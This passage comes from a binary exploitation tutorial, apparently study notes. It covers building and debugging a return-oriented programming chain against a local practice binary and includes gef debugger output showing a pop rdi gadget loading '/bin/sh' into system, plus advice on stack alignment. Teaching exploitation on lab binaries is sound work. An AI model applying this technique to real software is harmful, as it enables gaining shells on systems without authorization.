 ```python
p.interactive()
```

> Note that we have a potential issue with `xmm` register instructions when calling `system` with an unaligned stack, similar to what we experienced in [[5. Introduction to Binary Exploitation]] with stack buffer overflows. Instead of jumping into `system` after the `push rbp` instruction (which would work), we can simply add a `ret` gadget anywhere in our chain. This just pops the next address off the stack—which we presumably control—and moves the stack up eight bytes. This solves our alignment problem so the shell can pop!

Like with shellcode, it is extremely useful to write and verify ROP chains incrementally to quickly identify issues. To debug, we set a breakpoint on `main`'s `ret` instruction and step into (`si`) the instruction. If our first gadget's address is in the pushed instruction pointer, our chain hijacks control. So long as our next gadgets are lined up on the stack in sync with the `ret` instructions in each preceding gadget, we maintain control as we pop through the chain.

We see below that we are about to return from `main` and the next address on the stack points to a `rop rdi` gadget. That looks great! Then we can confirm after a couple instructions that `rdi` points to `/bin/sh` and the next address to pop is `system`:

```
────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe1f12a268│+0x0000: 0x00007fe7ab828795  →  <iconv+00b5> pop rdi  ← $rsp
0x00007ffe1f12a270│+0x0008: 0x00007fe7ab9c041b  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007ffe1f12a278│+0x0010: 0x00007fe7ab826a3e  →  <perror_internal+008d> ret
0x00007ffe1f12a280│+0x0018: 0x00007fe7ab8552b0  →  <system+0000> endbr64
0x00007ffe1f12a288│+0x0020: 0x00007ffe1f12a300  →  0x0000000000000000
0x00007ffe1f12a290│+0x0028: 0x00007ffe1f12a378  →  0x00007ffe1f12c591  →  0x485300706f722f2e ("./rop"?)
0x00007ffe1f12a298│+0x0030: 0x8d3026ca0672de32
0x00007ffe1f12a2a0│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40121e <main+0068>      call   0x4010b0 <gets@plt>
     0x401223 <main+006d>      mov    eax, 0x0
     0x401228 <main+0072>      leave
 →   0x401229 <main+0073>      ret
   ↳  0x7fe7ab828795 <iconv+00b5>     pop    rdi
      0x7fe7ab828796 <iconv+00b6>     ret
      0x7fe7ab828797 <iconv+00b7>     nop    WORD PTR [rax+rax*1+0x0]
      0x7fe7ab8287a0 <iconv+00c0>     test   rsi, rsi
      0x7fe7ab8287a3 <iconv+00c3>     je     0x7fe7ab828820 <iconv+320>
      0x7fe7ab8287a5 <iconv+00c5>     mov    rbp, QWORD PTR [rsi]                                                
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x401229 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401229 → main()
─────────────────────────────────────────────────────────────────────────────────
gef➤  si

< step a couple of instructions >

───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x00007ffe1f12a378  →  0x00007ffe1f12c591  →  0x485300706f722f2e ("./rop"?)
$rcx   : 0x00007fe7ab9feac0  →  0x00000000fbad2088
$rdx   : 0x0
$rsp   : 0x00007ffe1f12a280  →  0x00007fe7ab8552b0  →  <system+0000> endbr64
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000021576b1  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00007fe7ab9c041b  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x00007fe7ab826a3e  →  <perror_internal+008d> ret  ────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe1f12a280│+0x0000: 0x00007fe7ab8552b0  →  <system+0000> endbr64         ← $rsp
0x00007ffe1f12a288│+0x0008: 0x00007ffe1f12a300  →  0x0000000000000000
```